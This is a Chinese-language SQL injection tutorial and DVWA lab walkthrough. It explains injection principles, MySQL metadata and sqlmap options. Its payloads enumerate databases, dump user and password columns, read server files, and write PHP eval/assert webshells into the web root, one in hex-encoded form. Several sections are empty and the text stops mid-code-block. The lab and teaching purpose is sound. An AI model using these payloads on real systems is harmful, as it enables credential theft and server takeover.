# 1、SQL注入原理


## 1.1 SQL 注入原理

### 1.1.1 SQL注入的本质

> SQL 注入就是指Web 应用程序对用户的输入数据没有做合法性判断，前端传入后端的参数是攻击者精心设计的，并且参数带入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作。


**开发场景：**开发人员在数据查询时需要根据不同的查询标准决定提取数据库那些字段。或者根据不同的条件选择不同的查询表。动态的构建SQL语句会非常有用，如：

```sql
$query = ”SELECT * FROM user WHERE id = $_GET['id']
```

**解析：由于这里参数id可控，且带入数据库进行查询，所以非法用户可以任意拼接SQL语句进行攻击。**

由上述可见，SQL注入漏洞产生需要满足以下两个条件：

- 参数用户可控：
- 带入数据库查询：

以上述SQL语句为例：

* 当传入的参数id为1'时：

  查询语句为`$query = ”SELECT * FROM user WHERE id = 1'`。不符合SQL语法规范，会报错。

* 当传入的参数id为1 and 1 = 1时：

  查询语句为`$query = ”SELECT * FROM user WHERE id = 1 and  1=1'`。因为1=1永远为真，页面会返回与id=1相同的结果。但当输入id为1 and 1 = 2时，由于1=2不成立，所以会返回假，即页面返回结果与id=1不同。因此可以初步判断ID参数存在SQL注入漏洞。攻击者可以进一步拼接SQL语句进行攻击，知识数据库信息泄露，甚至进一步获取服务器权限等。

### 1.1.2 Mysql相关的知识

在MySQL5.0版本之后，MYSQL默认在数据库中存放着一个”information_schema“的数据库，在该数据库中存放着三个表名：

* **SCHEMATA: 存储该用户创建的所有的数据库的库名，主要字段SCHEMA_NAME;**

  

* **TABLES: 存储该用户创建的所有数据库的库名和表名，主要字段TABLE_SCHEMA、TABLE_NAME**

  

* **COLUMNS: 存储该用户创建的所有数据库的库名、表名、字段名。主要字段TABLE_SCHEMA、TABLE_NAME、COLUMN_NAME**

  

### 1.1.3 MySQl常用语法

1) **查询语句**

   SELECT 字段名 FROM 库名，表名

   SELECT 字段名 FROM 库名，表名 WHERE 已知条件的字段名 = "已知条件"

   SELECT 字段名 FROM 库名，表名 WHERE 已知条件1的字段名 = "已知条件1的值"  AND 已知条件2的字段名 = "已知条件2的值"

   ORDER BY 关键字用于对结果集按照一个列或者多个列进行排序。

2) **limit用法**

   limit 使用格式limit m,n: 从m开始，取n条记录。

3) **重点函数**

* database(): 当前网站使用的数据库
* version(): 当前MySQL版本
* user(): 当前MySQL用户

4. **注释符**

   在MySQL中，常见的注释是# 或者--空格或/**/.

5. **内联注释**

   内联注释形式：/\*！code*/。内联注释可以用于整个SQL语句中，用来执行我们的SQL语句

## 1.2 SQL注入类型

### 1.2.1 报错注入


### 1.2.2 盲注


### 1.2.3 Union注入


# 2、DVWA SQL注入过关实验

本实验以 Damn Vulnerable Web Application (DVWA) v1.10 *Development*为主。

[DVWA通关--SQL注入(SQL Injection)_仙女象的博客-CSDN博客_dvwa sql注入通关](https://blog.csdn.net/elephantxiang/article/details/112853149)

## 2.1 LOW

### 2.1.1 查看源码

分析源码，可以看到没有对参数做任何的过滤，直接带入数据库进行查询，分析sql查询语句，可能存在字符型sql注入。

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
  // Get input
  $id = $_REQUEST[ 'id' ];

  // Check database
  $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
  $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

  // Get results
  while( $row = mysqli_fetch_assoc( $result ) ) {
    // Get values
    $first = $row["first_name"];
    $last = $row["last_name"];

​    // Feedback for end user
​    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
  }

  mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

### 2.1.2 注入过程-暴库

**1、判断SQL是否存在注入，确定闭合符号**

是单引号闭合还是双引号闭合。

1:    不报错

1＇：　报错，说明是单引号闭合

1＂：　不报错，说明是单引号

**2、猜测SQL注入查询语句中字段数：确定列数**

*　1' order by 1#：



*　1' order by 2#：



*　1' order by 3#：　报错，说明只有两列


**由此判断，SQL语句查询的表的字段数是2**

**3、确定显示位置：SQL查询语句之后的回显位置**

- 1' union select 1# ：　报错：The used SELECT statements have a different number of columns
- 1' union select 1,2#  ：　有两个回显



**4、查询当前的数据库版本，暴库**

1' union select version(),database()#



**5、爆表**

获取数据库中的表：　1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#　　



获取表中的字段名：1' union select 1, group_concat(column_name) from information_schema.columns where table_name='users'#



获得字段中的数据：　1' union select user,password from users#




### 2.1.3 注入利用

**读取文件**

```bash
1' union select 1,load_file('E:/status.txt')#
```


**写入webshell**

```bash
1' union select 1,'<?php assert($_POST[a]);?>' into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'#

或者1' union select 1,0x3c3f7068702061737365727428245f504f53545b615d293b3f3e into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'#
```


## 2.2 Medium

### 2.2.1、查看源码

发现在用户输入的地方做了防御：

* 限制用户输入，**请求方式从GET变为POST**。

* 对参数使用**mysql_real_escape_string**函数转义sql语句中的一些特殊字符

  查看sql查询语句可以看出可能存在数字型sql注入。




### 2.2.2 抓包绕过防御

burpsuite抓包，并将此报文send to repeater．修改POST数据。



修改id＝1＆Submit=Submit， 测试闭合



测试转义字符， 单引号、双引号均失效。



测试列数：

id＝1 order by 1＆Submit=Submit（不报错）

id＝1 order by 2＆Submit=Submit（不报错）

id＝1 order by 3＆Submit=Submit（报错）说明只有两列数据。



暴库

id=1 union select 1,database() 得到库名：dvwa



id=1 union select version(),database() 得到库名：数据库版本5.7.26, dvwa



id=1 union select group_concat(user),group_concat(password) from users

得到5个用户：admin,gordonb,1337,pablo,smithy




### 2.2.3 写webshell

由于使用了**mysql_real_escape_string**函数，暂时为找到合适的webshell写入方法。

## 2.3 High

### 2.3.1 源码解析






按照套路来就行

写webshell

```bash
1' union select 1,'<?php eval($_POST[a]);?>' into outfile 'E:/phpstudy/phpstudy_pro/WWW/DVWA-master/hackable/uploads/sh.php'#
```


## 2.4 Impossible

本关用预编译语句解决了sql注入问题。

```php

<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database 以下三=三句重点
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```


# 3、SQL注入实验

## 3.1 手工注入

### 3.1.1 注入思路

1.判断是否存在注入，注入是字符型还是数字型

2.猜解SQL查询语句中的字段数

3.确定回显位置

4.获取当前数据库

5.获取数据库中的表

6.获取表中的字段名

7.得到数据

### 3.1.2 注入过程


## 3.2 工具注入

### 3.2.1 SQLmap

> SQLMap是一款开源渗透测试工具，可用于自动检测和利用SQL注入漏洞，并接管数据库服务器。Sqlmap 是一个基于命令行的半自动化SQL注入攻击工具。在我们使用扫描器或者是手工发现了一个SQL注入点后，通常需要验证注入点是否是一个可以利用的点，这个时候就可以利用sqlmap来完成。

**特点：**

- 支持MySQL，Oracle，PostgreSQL，Microsoft SQL Server，Microsoft Access，IBM DB2，SQLite，Firebird，Sybase，SAP MaxDB，HSQLDB和Informix数据库管理系统。
- 支持六种SQL注入技术：基于布尔的盲注，基于时间的盲注，基于错误的注入，基于UNION查询，堆叠查询和Out-of-Band 注入攻击。
- 通过提供DBMS凭据，IP地址，端口和数据库名称，支持直接连接到数据库而无需通过SQL注入。
- 支持枚举用户，密码哈希，特权A，角色，数据库，表和列。
- 自动识别密码哈希格式并支持使用基于字典的攻击来破解它们。
- 支持根据用户的选择完全转储数据库表，一系列条目或特定列。用户还可以选择仅转储每列条目中的一部分字符。
- 支持搜索特定数据库名称，所有数据库中的特定表或所有数据库表中的特定列。例如，这对于识别包含自定义应用程序凭据的表很有用，其中相关列的名称包含诸如name和pass之类的字符串。
- 当数据库软件是MySQL，PostgreSQL或Microsoft SQL Server时，支持从数据库服务器基础文件系统下载和上传任何文件。
- 支持以执行任意指令和检索他们的标准输出底层当数据库软件MySQL和PostgreSQL或Microsoft SQL Server操作系统的数据库服务器上。
- 支持在攻击者机器与底层操作系统的数据库服务器之间建立带外状态TCP连接。根据用户的选择，此通道可以是交互式命令提示符，Meterpreter会话或图形用户界面（VNC）会话。
- 通过Metasploit的Meterpreter 命令支持数据库进程的用户权限升级

**常用语法：**

```bash
-p                           指定测试参数
-b                           获取banner
--dbs                        列举数据库 
--is-dba                     是否是管理员权限
--current-db                 当前数据库
--current-user               当前用户
--tables                     列举数据库的表名
--count                      检索所有条目数
--columns                    获取表的列名
--dump                       获取表中的数据，包含列 
--dump-all                   转存DBMS数据库所有表项目
--level                      测试等级(1-5)，默认为1
-v                           显示详细信息
--delay 1（1秒）              表示延时1秒进行注入
```

参考资料：

* [最受欢迎的十款SQL注入工具 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/139737334)
* [Web安全：SQL注入工具_SQLMap (sohu.com)](https://www.sohu.com/a/438751671_653604#:~:text=SQL注入工具主要是针对Web服务器后台数据库的注入，其主要目的是获取数据库中的数据。 以前常用的SQL注入工具有啊D注入工具及Domain（明小子注入工具），现在常用的SQL注入工具有HackBar、SQLMap 、Pangolin、Havij、Safe3,SQL injector及超级SQL注入 工具等。)


# 4、 SQL注入总结

## 4.1 有回显的手工SQL注入步骤

1、找注入点

2、找闭合，常见的有单引号、双引号（字符型），无闭合（数值型）确定

3、确定列数 order by

4、确定字段类型 union select  

5、爆库  union select 1,database()

6、爆表 

```bash
union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()         
union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'

